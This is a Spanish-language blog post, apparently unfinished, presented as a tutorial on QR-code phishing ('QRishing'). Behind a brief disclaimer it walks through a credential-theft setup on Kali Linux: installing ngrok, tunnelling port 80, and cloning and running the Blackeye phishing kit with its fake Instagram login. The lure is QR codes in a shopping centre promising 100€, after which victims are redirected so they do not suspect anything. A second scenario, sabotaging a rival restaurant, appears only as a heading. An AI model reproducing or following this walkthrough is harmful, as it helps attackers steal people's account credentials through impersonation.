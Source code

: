 ```yaml
---
title: QRishing ¿Cómo lo lleva a cabo un ciberdelincuente?
date: 2023-01-19 9:00:00
categories: [Ciberataques, Phising]
tags: [qrishing, qr, phising, tutorial]    
author: Waidroc
---
```





![Disclaimer!](/assets/img/2023-01-19/disclaimer120x120.png)

    
> Antes de comenzar con el post, remarcar que no me hago resonsable del uso indebido que se le pueda dar al aprendizaje de esta materia. Mi intención es meramente informativa, para dar conciencia y una visión "real" de cómo una persona NO ética puede hacer un uso indebido o fraudulento de esta tecnología/herramienta. Dicho esto, espero que lo disfrutéis mucho!
{: .prompt-danger}


![Banner](/assets/img/2023-01-19/qrishing_portada.png)

Antes de comenzar con la práctica, vamos a repasar una serie de conceptos:

El primero de todos, ¿qué es el **QRishing**? El QRishing es una variante del Phishing mediante la cual, un atacante intenta realizar una suplantación de identidad sobre un producto, organización, persona... para atentar contra una o varias víctimas, generalmente con fines lucrativos. El ataque consta en generar un código QR malicioso para un posterior escaneo del mismo por parte de la víctima.

Además, podrás preguntarte, ¿qué es un ataque de **ingeniería social**? Es muy difícil intentar explicar este concepto con una única y breve definición pero, podría decirse que un ataque de ingeniería social se basa en la práctica ilegímita de obtener cualquier tipo de información confidencial a través de la manipulación de usuarios que si tienen acceso a dicha información (accesos, permisos, documentos...).

> Como pequeño inciso y con tono humorístico, no debemos de confundir o mezclar el concepto de QRishing con el de Cruishing solo por el mero hecho de que se pronuncian de forma muy parecida, aunque el resultado de ambos puede dar fruto a algo que en ninguno de los casos esperábamos (risas).
{: .prompt-tip}

Una vez repasados los conceptos, vamos a plantear dos escenarios posibles, aplicables al día a día en los que un ciberdelincuente podría utilizar esta técnica para llevar a cabo una actividad fraudulenta:

**1. Volcado de credenciales hacia un servidor web del propio atacante, suplantando la identidad de una web legítima** <br>
**2. Un atacante es contratado por un restaurante para quitar clientela al restaurante de al lado, el cual le genera mucha competencia y así incrementar sus ganancias**

Presentado los escenarios, procedamos con la práctica!

> Tened en cuenta que no se realizará todo lo "profesional/real" posible, no se externalizarán los servicios y solo serán accesibles desde la red local. Además, no intentaremos ocultar nuestro rastro por lo que si lo realizáis esta práctica tal y como aparece en el post, no tardarían mucho en descubriros y tendríais problemas legales.
{: .prompt-info}

<h1> ESCENARIO 1: CONSEGUIR CREDENCIALES </h1>

Vamos a suponer que en este caso, estamos en un centro comercial y vemos diversos códigos QR indicándonos que nos regalan 100€ por seguir la cuenta de Instagram del propio lugar. Las víctimas escanearían el código QR, introducirían sus credenciales (logueo de Instagram ilegítimo) y una vez introducidos los datos, se redirigirá al perfil de Instagram del centro comerical para que las víctimas no sospechen de nada.

Lo primero de todo, vamos a abrir nuestra máquina de atacante, en mi caso utilizaré Kali Linux. Vamos a utilizar las herramientas **Ngrok** y **Blackeye** para generar el portal de captura de credenciales.

Como primer paso, vamos a descargarnos el software Ngrok desde su web oficial (https://ngrok.com/download).

```bash
mkdir ngrok
cd ngrok
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz
sudo tar xvzf ngrok-v3-stable-linux-amd64.tgz -C /usr/local/bin
curl -s https://ngrok-agent.s3.amazonaws.com/ngrok.asc | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" | sudo tee /etc/apt/sources.list.d/ngrok.list && sudo apt update && sudo apt install ngrok
```

Para poder utilizar ngrok, debemos de **registrarnos** (https://dashboard.ngrok.com/signup) y conseguir un **AuthToken**. Sin él, no podremos utilizar el software correctamente. Vamos a proceder al registro y al añadido del token a la herramienta:

![ngrokToken](/assets/img/2023-01-19/token.PNG)

Añadimos el AuthToken a ngrok

```bash
ngrok config add-authtoken <token>
```

Cuando tengamos todo lo anterior en funcionamiento, procedemos a abrir un tunel http por el puerto 80.

> Si nos finaliza el comando ngrok con el siguiente error (The account "XXX" may not start an ngrok agent session until the admin's email address is verified. Verify your email at https://dashboard.ngrok.com/user/settings) debemos de verificar el correo que nos ha mandado la compañía de ngrok al correo electrónico proporcionado a la hora del registro para conseguir el AuthToken.
{: .prompt-info}

```bash
ngrok http 80
```

Realizado todo esto, estaríamos a la **escucha** y podríamos proceder al siguiente paso. El resultado sería el siguiente:

![ngrokEscucha](/assets/img/2023-01-19/escucha.png)


El siguiente paso sería crear el portal de autenticación de Instagram para poder enlazarlo al servidor que acabamos de crear. Vamos a clonar el repositorio de Blackeye (https://github.com/An0nUD4Y/blackeye) y procederemos a su instalación.

```bash
git clone https://github.com/An0nUD4Y/blackeye
cd blackeye
chmod +x blackeye.sh
./blackeye.sh
```

Cuando lo ejecutemos, vamos a indicarle la opción **01 Instagram**.





<h1> ESCENARIO 2: PROPORCIONAR INFORMACIÓN ERRÓNEA</h1>



<h1> POST EN CONSTRUCCIÓN/DESARROLLO </h1>
